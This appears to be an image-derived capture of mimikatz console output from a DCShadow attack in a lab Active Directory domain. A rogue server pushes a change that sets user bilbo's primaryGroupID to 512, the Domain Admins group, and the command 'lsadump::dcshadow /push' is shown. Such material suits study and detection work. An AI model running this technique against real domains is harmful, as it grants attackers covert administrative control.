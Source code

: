 ```
** Server Info **

Server: HFDC1.shire.com
  InstanceId  : {2021b645-d9c2-416d-9684-182516ad6738}
  InvocationId: {2021b645-d9c2-416d-9684-182516ad6738}
Fake Server (not already registered): it001.shire.com

** Attributes checking **

#0: primaryGroupID

** Objects **

#0: bilbo
DN:CN=Bilbo Baggins,CN=Users,DC=shire,DC=com
  primaryGroupID (1.2.840.113556.1.4.98-90062 rev 1):
    512
    (00020000)


** Starting server **

 > BindString[0]: ncacn_ip_tcp:it001[50495]
 > RPC bind registered
 > RPC Server is waiting!
== Press Control+C to stop ==
  cMaxObjects : 1000
  cMaxBytes   : 0x00a00000
  ulExtendedOp: 0
  pNC->Guid: {acc0aa33-f5eb-4e79-a1d2-b114f483b939}
  pNC->Sid : S-1-5-21-47903322-2936176756-2312637138
  pNC->Name: DC=shire,DC=com
SessionKey: a434763a886784a31835ba50ada0474f446c2cebe1ed8a09f4b379b59b93e56d
1 object(s) pushed
 > RPC bind unregistered
 > stopping RPC server
 > RPC server stopped
```

```
mimikatz # lsadump::dcshadow /push
** Domain Info **

Domain:         DC=shire,DC=com
Configuration:  CN=Configuration,DC=shire,DC=com
Schema:         CN=Schema,CN=Configuration,DC=shire,DC=com
dsServiceName:  ,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=shire,DC=com
domainControllerFunctionality: 7 ( WIN2016 )
highestCommittedUSN: 86111

** Server Info **

Server: HFDC1.shire.com
  InstanceId  : {2021b645-d9c2-416d-9684-182516ad6738}
  InvocationId: {2021b645-d9c2-416d-9684-182516ad6738}
Fake Server (not already registered): it001.shire.com

** Performing Registration **

** Performing Push **

Syncing DC=shire,DC=com
Sync Done

```